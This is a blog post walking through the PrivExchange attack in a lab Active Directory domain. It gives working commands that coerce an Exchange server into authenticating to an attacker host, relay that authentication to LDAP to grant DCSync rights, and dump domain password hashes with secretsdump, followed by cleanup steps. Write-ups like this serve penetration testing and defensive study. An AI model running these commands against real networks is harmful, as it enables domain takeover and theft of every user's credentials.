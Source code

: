```yaml
---
layout: single
classes: wide
title:  "Exploiting PrivExchange"
date:   2019-04-11 10:02:00 +0100
---
```


This is not my discovery, and is merely an expansion and demo of how to use the PrivExchange exploit. See [_dirkjan](https://twitter.com/_dirkjan)'s blog post [Abusing Exchange: One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/) for the original discovery.

## Overview

The PrivExchange tool simply logs in on Exchange Web Services to subscribe to push notifications to a specific host. This will make the Exchange server's machine account send its NTLMv2 hash back to the attacker host. As this machine account usually has severely high privileges in the domain, it can then be relayed to the domain controller to gain domain privilege escalation.

## Prerequisites

- [PrivExchange](https://github.com/dirkjanm/PrivExchange.git) and [Impacket](https://github.com/SecureAuthCorp/impacket) toolkit installed.
- Domain Name, DC IP, Exchange Server, and your Attack host IP.
- A host on the network with the ability to run your tools.
- A valid domain user account and password, or NTLM hash.
- A valid Exchange Server hostname or IP address. We can check this with `pth-net` from [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)

      pth-net rpc group members "Exchange Servers" -I dc01.lab.local -U lab/buff

![pth-net rpc](../assets/img/privexchange/rpc.jpg)

### The different components of the attack

- `lab.local` - Domain name
- `dc01.lab.local` - Domain controller
- `mail01.lab.local` - Exchange server
- `192.168.0.142` - Attacker host

## Exploitation

Run `ntlmrelayx` with the DC IP that we want to relay to, and specify a domain user we control, who we want to escalate privileges for.

    ntlmrelayx.py -t ldap://dc01.lab.local --escalate-user buff

![escalate-user buff](../assets/img/privexchange/2019-04-11-10-27-34.png)

Use the "PrivExchange” tool to send push notification to your own NTLM Relay server. The `-ah` parameter is the `attacking host` and the following parameter is the Exchange server. We also have to give it the domain, username and password for the user we control. Note that the user must have a mailbox connected.

    python privexchange.py -ah 192.168.0.142 mail01.lab.local -d lab.local -u chry -p Welcome1

![](../assets/img/privexchange/2019-04-11-10-33-01.png)

This should take exactly one minute. An HTTP connection comes in from the exchange server, and we request authentication from it. It replyed with the NTLMv2 hash of the `MAIL01$` machine account. We capture and relay the credentials over LDAP to the domain controller, which is used to modify the ACL privileges of our user to get DCsync rights.

![](../assets/img/privexchange/2019-04-11-11-11-36.png)

Once the user in our control obtains `Replication-Get-Changes-All` privileges in the domain we can run `secretsdump.py` to dump hashes from the domain controller.

    secretsdump.py lab/buff@192.168.0.2 -ntds ntds -history -just-dc-ntlm

![](../assets/img/privexchange/2019-04-11-13-03-50.png)

### Wireshark

We first see the API call on HTTPS go to the Exchange server. Followed by 1 minute of waiting, we see a connection negotitation happen initiated from the Exchange server, followed by our Kali box POSTing the `/privexchange` URL.

![](../assets/img/privexchange/2019-04-11-10-44-01.png)

Followed by the relay to LDAP
![](../assets/img/privexchange/2019-04-11-12-31-08.png)

## Cleanup

### Using aclpwn

Any ACL attack using `ntlmrelayx` saves a restore file that can be provided to [aclpwn.py](https://github.com/fox-it/aclpwn.py) to restore the original permissions on the domain object.

    python aclpwn.py --restore ../aclpwn-20190319-125741.restore

![](../assets/img/privexchange/2019-04-11-12-27-42.png)

### Using GUI

In "Active Directory Users and Computers”, enable Advanced Features (in View Menu), Right-click [Domain -> Security -> Advanced]. Then look for the domain username account that you just gave "Replicating Directory Changes” and "Replicating Directory Changes All” privileges to and remove those Permission entries in the "Allow” checkboxes.

We can only use ADSI Edit to view the properties of the domain object, where we can see that the domain user account we gave DCsync privileges have those privileges:

![](../assets/img/privexchange/2019-04-11-10-42-24.png)

## Links

- [https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
- [https://github.com/dirkjanm/PrivExchange](https://github.com/dirkjanm/PrivExchange) - Python
- [https://github.com/G0ldenGunSec/PowerPriv](https://github.com/G0ldenGunSec/PowerPriv) - Powershell version
- [https://github.com/panagioto/SharpExchangePriv](https://github.com/panagioto/SharpExchangePriv) - C#